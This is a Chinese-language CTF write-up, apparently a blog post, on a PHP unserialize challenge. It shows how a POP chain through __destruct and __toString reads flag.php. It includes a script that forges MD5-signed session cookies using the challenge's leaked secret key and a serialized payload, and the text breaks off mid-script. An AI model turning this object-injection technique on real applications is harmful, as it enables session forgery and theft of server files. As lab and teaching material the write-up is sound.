             $serialized = serialize($this->sessionData);
            $sign = base64_encode(md5($serialized . self::SECRET_KEY));
            $value = base64_encode($serialized) . "." . $sign;
    
            setcookie("session",$value);
        }
    
    
        public function extract($session){
    
            $sess_array = explode(".", $session);
            $data = base64_decode($sess_array[0]);
            $sign = base64_decode($sess_array[1]);
    
            if($sign === md5($data . self::SECRET_KEY)){
                $this->sessionData = unserialize($data);
            }else{
                unset($this->sessionData);
                die("Go away! You hacker!");
            }
        }
    }

    
    class Eeeeeeevallllllll{
        public $msg="坏坏liki到此一游";
    
        public function __destruct()
        {
            echo $this->msg;
        }
    }

首先找到获取flag的点：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210217121406.png)

有一个tostring魔法函数和file_get_contents函数，那么只要我们能控制file变量以及能够触发tostring函数，就可以读取flag.php。

这时注意到最后出题人留下的痕迹：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210217121724.png)

有一个echo，很明显是让你触发tostring的，所以只要令msg new一个类即可触发tostring，但是new哪一个类呢？肯定是能让我们控制file变量的CardsPool类了。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210217122308.png)

记得file前面一定改为public。。。private打不通，原因可能是%00在后面base64编码和md5加密的时候会出问题，可能是这样。

好的现在成功构造了pop链，但是没有反序列化点的话，都是徒劳的，也就是说还没有一个触发点。

Session类里有一个反序列化，能不能利用呢：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210217122616.png)

可以看到data就是我们session前半部分base64解码后的结果，所以说，是可控的。但是上面还有一个触发的条件，懒得细说了，上面secretkey已经给出，很好伪造，这里把脚本贴出来：

    <?php
    highlight_file(__FILE__);
    class test
    {
	     const SECRET_KEY = "7tH1PKviC9ncELTA1fPysf6NYq7z7IA9";
	     public $data;
	     function __destruct(){
		    $payload='O:17:"Eeeeeeevallllllll":1:{s:3:"msg";O:9:"CardsPool":1:{s:4:"file";s:10:"./flag.php";}}';
		    $sign=base64_encode(md5($payload . self::SECRET_KEY));
		    echo '<br/>';
		    echo $sign;
		    echo '<br/>';
		    $key=base64_encode($payload);